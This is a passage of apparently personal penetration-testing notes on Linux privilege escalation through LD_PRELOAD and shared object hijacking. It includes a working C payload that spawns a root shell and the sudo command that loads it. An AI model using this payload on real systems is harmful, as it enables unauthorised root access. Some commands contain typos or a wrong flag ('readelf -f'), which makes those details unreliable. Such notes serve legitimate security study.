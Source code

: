 
## Shared Libraries (LD_PRELOAD)

Shared libraries are like dynamically linked libraries which are loaded and executed by the associating program at runtime. These end in `.so` files. The way we specify which library to execute at runtime can be achieved through several means but here are some good examples:
- Using `-rpath` and `-rpath-link` flags when compiling a program
- Using environmental variables, like `LD_RUN_PATH` or `LD_LIBARY_PATH`
- Placing library in `/lib/` r `/usr/lib/` directories
- Specifying another directory containing the libraries in `/etc/ld.so.conf`
- **Exploit `LD_PRELOAD`** which is an environment variable which can loiad a library before executing the binary. Functions offered by this loaded library are prioritised over the default ones.

We can list shared libraries required by a binary with ldd:
```
target@hacked:~$ ldd /bin/<BINARY_FILE>
```

We can also see if LD_PRELOAD is enabled with `sudo -l` and checking if `env_keep` is enabled.

We can make a C program to set uid and gid to root, then spawn a shell. To see if available, enter `sudo -l` and check if `env_keep` is enabled. If it's possible then execute commands as **sudo** then: 
1. `gcc -fPIC -shared -o shell.so shell.c -nostartfiles` - compile stuffs to shared loader library
2. `sudo LD_PRELOAD=/home/uer/ldpreload/shell.so <program>` - execute program but load stuffs first 

We can use this payload template for shell.c:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```


## Shared Object Hijacking

Shared objects are like libraries that applications consume in build / runtime.

We can try to find any non-standard libaries being used by the program using `ldd`:

```
target@hacked:~$ ldd <PROGRAM_OR_BINARY_NAME>
```

If we find a non-standard library being used, we can find the path of the library using:

```
target@hacked:~$ readelf -f <PROGRAM_OR_BINARY_NAME> | grep PATH
```
